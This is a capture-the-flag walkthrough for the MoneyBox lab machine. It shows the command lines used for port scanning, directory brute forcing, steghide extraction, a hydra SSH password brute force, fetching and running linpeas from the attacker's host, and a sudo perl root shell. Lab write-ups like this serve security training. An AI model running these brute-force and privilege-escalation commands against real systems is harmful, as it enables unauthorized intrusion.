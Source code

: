 # MoneyBox Walkthrough
Hello There, 

This is f33z and i am here to share my walkthrough On how i Got root access to the machine MoneyBox in the play section of proving grounds, which means it does also belong to Vulnhub

## Port Scanning
We run Nmap as usual to find open ports : 
```bash
nmap -p- -T4 -v [IP-ADDRESS]
```
- -p- : for scanning all ports 0-65,535
- -T4 : for Quick Scan T1-T5
- -v : for verbose mode

We got that there is two open port 21,22,80 to check their services and their version, we run the command 
```bash
nmap -p21,22,80 -sC -sV [IP-ADDRESS]
```
this screen shows the we have the services FTP, SSH, HTTP for the followings 21,22,80 ports

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/502374f7-7579-42fe-9597-3e53c10ad690)

## Enumeration
### 21 Port - FTP
Since we can log in to FTP using anonymous access, we found an image named `trytofind.jpg`

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/ac4f71f0-45e3-4d5b-bfdb-b592d960bcb0)


this version of FTP `vsFTPd 3.0.3` does not seem to have an exploitable vulnerability, accourding to the results of this command :
```bash
searchsploit vsFTPd 3.*
```
### 80 Port - HTTP

the IP Address displays this web page, this indicates that this machine is more CTF-like, so we can think like if we are solving CTFs instead of focusing on realistic attacks only

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/0634847f-4cf3-4fcc-a146-c03c4f0015a8)

After running a Directory brute force on this web page we found that there is /blog directory
```bash
dirsearch -u http://IP-ADDRESS/
```
![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/db451dc3-0475-4dae-9d1e-118565906f3c)

In the source code of this page, we found 
```html
<!--the hint is the another secret directory is S3cr3t-T3xt-->
```

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/ac6191d4-ad37-4b04-b32a-036801830715)

when we navigate to /blog/S3cr3t-T3xt directory, we found this page 

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/4f6388a4-58e8-4bc2-9fa1-5f4eea018b93)

this page also had this `<!..Secret Key 3xtr4ctd4t4 >` hidden in its source code 

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/5a142371-df80-4cef-9060-440fb5625325)


## Initial Access
Since this box is a CTF-like Box, and after our enumeration we did find a JPG image and a key `3xtr4ctd4t4`, we will try some steganography on this image, since it is JPG image, we can use steghide and since we have a key, we can try that key as passphrase to stehide
```bash
steghide extract -sf trytofind.jpg
```

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/5dc2c4f8-3499-4f5c-8391-318cc786abc8)

This hint indicats that the password of the user `renu` is easy to brute force, we can use hydra to bruteforce it on the service SSH
```bash
hydra -l renu -P /usr/share/wordlists/rockyou.txt ssh://[IP-ADDRESS] -t 10
```


![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/5478486f-358b-43c8-95d0-8a4c4a539f58)

We found quickly this easy password : `987654321`

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/29705a8a-5eb8-4250-9623-f633435773e7)

## Privilege Escalation

After gaining access to the moneyBox machine as renu user, we will try to escalate our privileges, to do so, we run linpeas on the target machine, 

in my kali machine :
```bash
python3 -m http.server 80
```

in the moneyBox machine 
```bash
cd /tmp
wget http://[IP-ADDRESS-kali]/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

After going through the output of linpeas we get some intresting commands that were related to ssh and the user lily


![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/dedad9c9-8105-4872-a408-c139722638e8)

we make sure we can access access ssh using the user lily, i checked the file authorized keys in the .ssh directory inside the home directory of renu 
and i found that lily can access ssh using the same private key that renu uses :


![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/b2724f9c-1100-4300-a340-a39b6c011b5f)

doing so i got a access with priviliges of the user lily, 


![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/ad9026e8-0fd7-462e-865e-d01d0fda4fd1)

running the command `sudo -l` shows that i can run the command perl with sudo permissions without password, using the {GTFObins](https://gtfobins.github.io/gtfobins/perl/#sudo) website i can run this command to get root privileges :

```bash
sudo perl -e 'exec "/bin/sh";'
```

And Yes we are again GROOT!!!

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/4e6dfdb9-2751-4bf1-b123-69118b492e76)








